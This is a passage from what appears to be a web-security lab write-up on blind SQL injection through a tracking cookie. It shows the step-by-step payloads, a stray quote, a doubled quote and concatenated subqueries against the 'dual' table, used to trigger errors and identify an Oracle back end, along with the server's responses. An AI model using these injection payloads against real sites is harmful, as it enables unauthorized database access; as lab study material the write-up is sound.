                                 <label>Password</label>
                                <input required type=password name="password">
                                <button class=button type=submit> Log in </button>
                            </form>
                        </section>
                    </div>
                </section>
                <div class="footer-wrapper">
                </div>
            </div>
        </body>
    </html>
    ```
    

Modify the request at `Cookie` line

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'
```

Verify there is an error message

```html
<h4>Internal Server Error</h4>
<p class=is-warning>Internal Server Error</p>
```

Try again by adding one more quote `'` 

```
Cookie: TrackingId=POg3wIWYdQVhZtLp''
```

Verify there is no more error message → Confirm that the error is a syntax type which is not the other kind of error (what we suppose to **********************************conditional error**********************************)

Try to submit with the symbol `||` which is used to add two strings from the left and right together and returns one result

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT '') ||'
```

In this case, the error message still exists. The reason might be due to the database type → Try another one with oracle syntax

```
Cookie: TrackingId=POg3wIWYdQVhZtLp'||(SELECT '' FROM dual) ||'
```

`*DUAL` is the name of a table with exactly **one** record and **one** column. The name of the column is `DUMMY` and its value is `X`.*

*The owner of `DUAL` is `SYS`, but it is accessibly by every user.*

Verify the error message disappears → Indicate that the target is probably using an **Oracle** Database
